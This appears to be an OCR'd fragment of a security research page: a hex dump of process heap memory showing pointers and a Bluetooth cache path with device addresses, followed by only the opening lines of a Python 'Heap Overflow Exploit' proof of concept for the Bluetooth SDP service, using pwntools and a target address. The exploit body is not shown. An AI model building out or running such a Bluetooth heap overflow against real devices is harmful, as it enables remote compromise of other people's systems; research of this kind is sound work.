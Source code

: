 ```dump
00000b80  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000bb0  00 00 00 00  00 00 1b 00  00 00 00 00  00 00 1c 00  │····│····│····│····│
00000bc0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000bd0  00 00 00 00  00 00 1f 00  00 00 00 00  00 00 20 00  │····│····│····│·· ·│
00000be0  00 00 00 00  00 00 21 00  00 00 00 00  00 00 00 00  │····│··!·│····│····│
00000bf0  00 00 00 00  00 00 23 00  00 00 00 00  00 00 24 00  │····│··#·│····│··$·│
00000c00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000c80  00 00 00 00  00 00 00 00  00 00 00 00  00 00 36 00  │····│····│····│··6·│
00000c90  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000ce0  00 00 00 00  00 00 11 02  00 00 00 00  00 00 20 ca  │····│····│····│·· ·│
00000cf0  40 27 aa 55  00 00 00 00  00 00 00 00  00 00 60 d5  │@'·U│····│····│··`·│
00000d00  3f 27 aa 55  00 00 80 3f  40 27 aa 55  00 00 00 00  │?'·U│···?│@'·U│····│
00000d10  00 00 00 00  00 00 e0 48  40 27 aa 55  00 00 00 00  │····│···H│@'·U│····│
00000d20  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000d30  00 00 00 00  00 00 00 00  00 00 00 00  00 00 b0 54  │····│····│····│···T│
00000d40  40 27 aa 55  00 00 00 00  00 00 00 00  00 00 00 00  │@'·U│····│····│····│
00000d50  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000d70  00 00 00 00  00 00 d0 82  40 27 aa 55  00 00 80 8b  │····│····│@'·U│····│
00000d80  40 27 aa 55  00 00 a0 8c  40 27 aa 55  00 00 00 00  │@'·U│····│@'·U│····│
00000d90  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000dc0  00 00 00 00  00 00 70 a8  40 27 aa 55  00 00 50 a9  │····│··p·│@'·U│··P·│
00000dd0  40 27 aa 55  00 00 00 00  00 00 00 00  00 00 00 00  │@'·U│····│····│····│
00000de0  00 00 00 00  00 00 10 c6  40 27 aa 55  00 00 c0 c6  │····│····│@'·U│····│
00000df0  40 27 aa 55  00 00 20 c8  40 27 aa 55  00 00 00 00  │@'·U│·· ·│@'·U│····│
00000e00  00 00 00 00  00 00 60 d3  40 27 aa 55  00 00 d0 d4  │····│··`·│@'·U│····│
00000e10  40 27 aa 55  00 00 00 00  00 00 00 00  00 00 00 00  │@'·U│····│····│····│
00000e20  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000e90  00 00 00 00  00 00 00 00  00 00 00 00  00 00 d0 a2  │····│····│····│····│
00000ea0  41 27 aa 55  00 00 00 00  00 00 00 00  00 00 00 00  │A'·U│····│····│····│
00000eb0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000ef0  00 00 00 00  00 00 51 00  00 00 00 00  00 00 80 e5  │····│··Q·│····│····│
00000f00  3f 27 aa 55  00 00 2f 62  6c 75 65 74  6f 6f 74 68  │?'·U│··/b│luet│ooth│
00000f10  2f 37 30 3a  46 33 3a 39  35 3a 37 41  3a 42 39 3a  │/70:│F3:9│5:7A│:B9:│
00000f20  43 38 2f 63  61 63 68 65  2f 30 30 3a  31 41 3a 37  │C8/c│ache│/00:│1A:7│
00000f30  44 3a 44 41  3a 37 31 3a  31 31 2e 57  46 53 49 46  │D:DA│:71:│11.W│FSIF│
00000f40  5a 00 00 00  00 00 21 00  00 00 00 00  00 00 01 00  │Z···│··!·│····│····│
00000f50  00 00 17 00  00 00 18 00  00 00 19 00  00 00 30 75  │····│····│····│··0u│
00000f60  00 00 00 00  00 00 51 00  00 00 00 00  00 00 40 e1  │····│··Q·│····│··@·│
00000f70  41 27 aa 55  00 00 70 81  40 27 aa 55  00 00 20 00  │A'·U│··p·│@'·U│·· ·│
00000f80  00 00 00 00  00 00 30 00  00 00 00 00  00 00 70 81  │····│··0·│····│··p·│
00000f90  40 27 aa 55  00 00 73 76  7d 61 73 00  00 00 20 00  │@'·U│··sv│}as·│·· ·│
00000fa0  00 00 00 00  00 00 f0 c4  40 27 aa 55  00 00 50 00  │····│····│@'·U│··P·│
00000fb0  00 00 00 00  00 00 c0 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000fc0  00 00 00 00  00 00 00 12  41 27 aa 55  00 00 18 00  │····│····│A'·U│····│
00000fd0  00 00 20 00  00 00 00 00  00 00 00 00  00 00 ff ff  │·· ·│····│····│····│
00000fe0  ff ff ff ff  ff ff ff ff  ff ff ff ff  ff ff ff ff  │····│····│····│····│
*
00001000  ff ff ff ff  ff ff 08 56  4c a5 5a c8  10 00 00     │····│···V│L·Z·│···│
0000100f
```
Heap Overflow Exploit:
```python
from pwn import *
import bluetooth
if not 'TARGET' in args:
    log.info("Usage: sdp_heapoverflow_poc.py TARGET=XX:XX:XX:XX:XX:XX")
```